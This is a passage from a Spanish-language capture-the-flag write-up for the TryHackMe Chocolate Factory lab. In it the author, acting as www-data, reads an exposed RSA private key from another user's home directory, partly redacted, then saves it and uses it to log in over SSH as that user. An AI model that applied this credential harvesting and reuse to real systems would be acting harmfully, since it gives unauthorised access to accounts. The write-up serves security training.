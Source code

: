 El usuario que tenemos, *www-data*, no tiene permisos. Probamos con los otros ficheros.

```console
www-data@chocolate-factory:/home/charlie$ cat teleport
cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
[...]
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
www-data@chocolate-factory:/home/charlie$ 
```

OK, tenemos la clave RSA privada. La copiamos completa a un fichero en local, lo guardamos en nuestro directorio de trabajo como `id_rsa` y le ajustamos los permisos.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/ChocolateFactory]
└─$ chmod 600 id_rsa
```

Una vez hecho, abrimos un nuevo terminal y probamos a acceder por **ssh** utilizando esta clave.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/ChocolateFactory]
└─$ ssh -i id_rsa charlie@10.10.31.2
The authenticity of host '10.10.31.2 (10.10.31.2)' can't be established.
ED25519 key fingerprint is SHA256:WwycVD8zBUVfJS6sNVj192MU3Q7P4rylVnanjGx/Q5U.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.31.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 27 07:56:10 UTC 2022

  System load:  0.08              Processes:           605
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 60%               IP address for eth0: 10.10.31.2
  Swap usage:   0%

0 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
```
